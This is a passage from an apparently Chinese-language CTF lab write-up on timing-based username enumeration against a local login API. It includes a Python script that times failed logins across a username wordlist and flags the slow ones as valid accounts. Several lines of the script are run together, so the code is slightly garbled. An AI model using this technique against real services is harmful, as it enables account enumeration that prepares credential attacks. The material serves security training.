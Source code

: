 注意“用错误的用户名登录”和“用错误的密码登录”之间的时间差。我们可以使用这个时间差来枚举现有的用户帐户

# 任务 3 利用

让我们使用 firefox 或 burp suite 中的开发工具来检查请求

![](img/cb25702414d7c39063cd75d6cf470a0c.png)

这里我们可以看到登录是对/api/user/login 的 POST 请求。这意味着我们可以使用 CURL、python 或您选择的其他编程语言来提出这个请求。

## **利用时间:**

**注意:** 首先，试着自己写剧本，如果你卡住了，试着逐行分析给定的剧本

**代码:**

```
import requests as r
import time
import json
URL = "[http://localhost:8081/api/user/login](http://localhost:8081/api/user/login)"
USERNAME_FILE = open("names.txt", "r")
usernames = []
for line in USERNAME_FILE:  # Read in usernames from the wordlist
    usernames.append(line.replace("\n", ""))timings = dict()def doLogin(user):
    creds = {"username": user, "password": "invalidPassword!"}
    response = r.post(URL, json=creds)
    if response.status_code != 200:  # This means there was an API error
        print("Error:", response.status_code)print("Starting POST Requests")for user in usernames: startTime = time.time()
    doLogin(user)
    endTime = time.time() timings[user] = endTime - startTime

    time.sleep(0.01)print("Finished POST requests")largestTime = max(timings.values())
smallestTime = min(timings.values())

print("Time delta:", largestTime-smallestTime, "seconds (larger is better)")for user, time in timings.items():
    if time >= largestTime * 0.9: print(user, "is likely to be valid")
```

**代码逐步分析:**

*   首先，我们导入我们需要的库，如下图所示

```
import requests as r
import time
import json
```
